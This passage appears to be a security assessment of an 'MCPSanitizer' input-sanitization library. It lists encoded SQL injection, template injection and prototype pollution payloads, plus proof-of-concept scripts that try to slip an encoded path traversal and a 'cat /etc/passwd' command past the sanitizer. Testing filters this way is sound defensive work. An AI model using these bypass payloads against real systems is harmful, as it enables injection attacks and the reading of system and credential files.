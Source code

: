 ### 7. SQL Injection via Encoding
```javascript
const encodedSQLInjection = [
  "\\u0027\\u0020OR\\u00201\\u003d1\\u0020--",      // Unicode: ' OR 1=1 --
  "%27%20OR%201%3d1%20--",                          // URL encoded: ' OR 1=1 --
  "&#39;&#32;OR&#32;1&#61;1&#32;--",                // HTML entities: ' OR 1=1 --
  "\\x27\\x20OR\\x201\\x3d1\\x20--"                // Hex encoded: ' OR 1=1 --
];
```

### 8. Template Injection via Encoding
```javascript
const encodedTemplateInjection = [
  "\\u007b\\u007b7*7\\u007d\\u007d",                // Unicode: {{7*7}}
  "%7b%7b7*7%7d%7d",                                // URL encoded: {{7*7}}
  "&#123;&#123;7*7&#125;&#125;",                    // HTML entities: {{7*7}}
  "\\x7b\\x7b7*7\\x7d\\x7d"                        // Hex encoded: {{7*7}}
];
```

### 9. Prototype Pollution via Encoding
```javascript
const encodedPrototypePollution = [
  "\\u005f\\u005fproto\\u005f\\u005f",              // Unicode: __proto__
  "%5f%5fproto%5f%5f",                              // URL encoded: __proto__
  "&#95;&#95;proto&#95;&#95;",                      // HTML entities: __proto__
  "constructor\\u005bprototype\\u005d"              // Unicode bracket notation
];
```

## Proof-of-Concept Payloads

### PoC 1: File Path Traversal Bypass
```javascript
const MCPSanitizer = require('./src/index');
const sanitizer = new MCPSanitizer('PRODUCTION');

// This will likely bypass current validation
const maliciousPath = "\\u002e\\u002e\\u002f\\u002e\\u002e\\u002f\\u002e\\u002e\\u002f\\u0065\\u0074\\u0063\\u002f\\u0070\\u0061\\u0073\\u0073\\u0077\\u0064";

const result = sanitizer.sanitize(maliciousPath, { type: 'file_path' });
console.log("Bypass successful:", !result.blocked);
console.log("Decoded payload:", decodeURIComponent(maliciousPath.replace(/\\u([0-9a-f]{4})/gi, (match, hex) => 
  String.fromCharCode(parseInt(hex, 16)))));
```

### PoC 2: Command Injection Bypass
```javascript
// Command that executes as: cat /etc/passwd
const encodedCommand = "\\u0063\\u0061\\u0074\\u0020\\u002f\\u0065\\u0074\\u0063\\u002f\\u0070\\u0061\\u0073\\u0073\\u0077\\u0064";

const result = sanitizer.sanitize(encodedCommand, { type: 'command' });
console.log("Command bypass successful:", !result.blocked);
```
